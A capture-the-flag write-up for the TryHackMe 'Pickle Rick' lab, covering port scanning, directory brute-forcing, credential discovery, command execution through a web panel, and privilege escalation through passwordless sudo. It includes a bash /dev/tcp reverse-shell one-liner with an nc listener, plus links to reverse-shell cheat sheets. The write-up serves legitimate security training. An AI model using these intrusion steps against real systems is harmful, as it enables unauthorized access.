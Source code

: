 # CTF-Write-up

## Try Hack Me - Pickle Rick

##### URL: https://tryhackme.com/room/picklerick

Created by _tryhackme_

![logo13](https://user-images.githubusercontent.com/20625004/106916580-053db580-6710-11eb-8f5e-da88c6f75659.PNG)

You should deploy the machine first.

Run nmap against the target machine.

```nmap <target IP>```

![logo3](https://user-images.githubusercontent.com/20625004/106917548-08857100-6711-11eb-8781-fcc2fc1ded56.PNG)

SSH and HTTP services are only available.

We access the target IP on port 80.

![logo1](https://user-images.githubusercontent.com/20625004/106918014-80ec3200-6711-11eb-98be-aef684379d8f.PNG)


We have a web site with little information, apart from the fact that Rick wants our help, now lets check the source code of the page.

![logo2](https://user-images.githubusercontent.com/20625004/106918406-d6c0da00-6711-11eb-97e3-f345f157327d.PNG)

Nice and simple we have obtained a username ```@@@@@@```. So somewhere there has to be a login portal.

Now lets brute force the directories of the web page in order to find any hidden from us.
using ```dirb``` or ```gobuster``` should do the job.

```gobuster dir -u <target IP> -u /usr/share/wordlists/dirb/common.txt```

With the above command we can find directories in a web site, it relies on wordlists so you should check in the path ```/usr/share/wordlists``` and choose the wordlist you want to check.

![logo4](https://user-images.githubusercontent.com/20625004/106919453-d412b480-6712-11eb-8f34-067477036545.PNG)

OK we found something, now lets check the robots.txt path.

![logo5](https://user-images.githubusercontent.com/20625004/106920461-c6116380-6713-11eb-9a91-1a8a727016a6.PNG)

OK that is something which we can try later on. But we have not found yet a portal. From the wordlist we used before we were not able to find a portal, so we can choose another one or try manual checks, such as login.php.

Bingo 

![logo6](https://user-images.githubusercontent.com/20625004/106926862-34592480-671a-11eb-84cc-e055b4ebf939.PNG)

We found the portal, now lets try the username we found from the source code of the webpage ```http://<target IP>:80``` and for the password let's use the one we found on ```robots.txt``` path.

![logo7](https://user-images.githubusercontent.com/20625004/106927153-90bc4400-671a-11eb-91ca-f316ca578fdf.PNG)

We now have access to the command portal.
Let's use some command and see what happens, just type ```ls -l```.

![logo8](https://user-images.githubusercontent.com/20625004/106927901-4edfcd80-671b-11eb-8b35-c1249e8a0e3a.PNG)

The command outputs some files, an intersting is ```Sup3rS3cretPickl3Ingred.txt```, ok just access it in the web browser ```http://<target IP>:80/Sup3rS3cretPickl3Ingred.txt```

![logo9](https://user-images.githubusercontent.com/20625004/106928625-0d035700-671c-11eb-87df-4d092803ee92.PNG)

And we have our first ingredient.

Since we can execute commands we are going to try and use reverse shell. Good info can be found in the below links regarding reverse shell.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://github.com/security-cheatsheet/reverse-shell-cheatsheet

fire up ```nc```

```nc -lvnp 8080```
```listening on [any] 8080 ...```

Our listener is up and ready
Now go to the command panel of the webpage and add the reverse shell.
```bash -c 'bash -i >& /dev/tcp/<Your IP>/<Listening Port same as in nc> 0>&1'```.


It worked, and now we have access to the machine.

![logo11](https://user-images.githubusercontent.com/20625004/106932584-96b52380-6720-11eb-9490-abb4ef570ed5.PNG)

By looking around and accessing the folder ```/home/rick/``` we found the second ingredient.

Further by issuing the command ```sudo -l ``` we observe that the user can execute sudo commands without the need for a password.
Looking around on the ```/root/``` directory we can find the third ingredient.


![logo12](https://user-images.githubusercontent.com/20625004/106933324-72a61200-6721-11eb-9f07-305665184df6.PNG)




